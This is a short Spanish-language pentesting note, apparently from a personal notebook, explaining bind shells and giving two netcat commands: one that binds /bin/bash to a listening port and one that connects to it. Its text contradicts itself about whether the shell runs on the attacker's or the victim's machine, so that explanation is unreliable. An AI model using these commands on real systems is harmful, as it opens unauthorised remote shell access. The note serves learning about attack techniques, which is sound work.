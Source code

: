 ____

- Tags: #herramientas #netcat #redes #ipv4 #bin-shell #enumeración #explotación 

___
# Introducción

En el ámbito de la seguridad informática, una "**bind shell**" es una técnica que implica poner en escucha un puerto específico y, cuando un cliente se conecta a ese puerto, se le otorga acceso a una shell en la máquina atacante. Este enfoque permite a un atacante tomar el control de manera remota. Aquí se presentan algunos comandos relacionados con la creación de una **bind shell**.

____
# Comandos:

1. **Ponerse en modo escucha:**

   ```bash
   nc -lvp puerto -e /bin/bash
   ```
   
   Este comando coloca la máquina atacante en modo escucha en un puerto determinado. Cuando alguien se conecta a la [[Dirección IP|IP]] y puerto especificados, se le concede acceso a una shell en la máquina atacante. El parámetro `-e` especifica el programa a ejecutar cuando se establece la conexión, en este caso, `/bin/bash`.

2. **Conectar a la bind shell:**
   ```bash
   nc ip puerto
   ```
   
   Al ejecutar este comando desde la máquina del atacante y proporcionando la [[Dirección IP|IP]] y puerto de la máquina víctima, se establece la conexión con la **bind shell**. Una vez conectado, el atacante tiene acceso a una shell en la máquina comprometida.
